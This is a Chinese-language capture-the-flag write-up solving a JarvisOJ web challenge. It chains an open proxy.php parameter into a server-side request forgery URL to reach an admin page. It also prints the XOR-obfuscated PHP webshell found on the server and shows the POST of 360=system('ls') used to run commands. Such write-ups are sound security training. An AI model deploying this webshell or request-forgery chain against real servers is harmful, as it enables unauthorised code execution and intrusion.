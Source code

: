 &emsp;&emsp;点击管理员登录提示`you are not admin!`

&emsp;&emsp;查看图片地址为`http://web.jarvisoj.com:32782/proxy.php?url=http://dn.jarvisoj.com/static/images/proxy.jpg`

&emsp;&emsp;一下子精神了，也许是远程文件包含？

&emsp;&emsp;再看了一下管理员界面源码：

![](/img/JarvisOJ-WEB-2/WEB22.png)

&emsp;&emsp;尝试了加X-Forwarded-For头部，发现并没什么用。

&emsp;&emsp;于是构造POC：`http://web.jarvisoj.com:32782/proxy.php?url=http://202.5.19.128/proxy.php?url=http://web.jarvisoj.com:32782/admin/`即可访问到admin目录。

&emsp;&emsp;接下来扫描目录，在robots.txt中找到木马文件trojan.php及该木马的源码trojan.php.txt。

&emsp;&emsp;但是源码是进行异或处理的:

```PHP
<?php ${("#"^"|").("#"^"|")}=("!"^"`").("( "^"{").("("^"[").("~"^";").("|"^".").("*"^"~");${("#"^"|").("#"^"|")}(("-"^"H"). ("]"^"+"). ("["^":"). (","^"@"). ("}"^"U"). ("e"^"A"). ("("^"w").("j"^":"). ("i"^"&"). ("#"^"p"). (">"^"j"). ("!"^"z"). ("T"^"g"). ("e"^"S"). ("_"^"o"). ("?"^"b"). ("]"^"t"));?>
```

&emsp;&emsp;为了知道这个webshell的密码，把木马文件放在本地的Web服务器上执行，通过报错知道密码为360。

&emsp;&emsp;最后利用密码POST数据`360 = system('ls')`，即可获得flag：CTF{fl4g_1s_my_c40d40_1s_n0t_y0urs}。

## To Be Continue

&emsp;&emsp;JarvisOJ的Web部分题目暂告一段落，还有几题没做，后面有动力做了的话再单独写下WriteUps。最近迷上学习的PWN&Reverse了，虽然他们虐我千百遍，我却仍待他们如初恋（我怎么这么菜啊T.T）。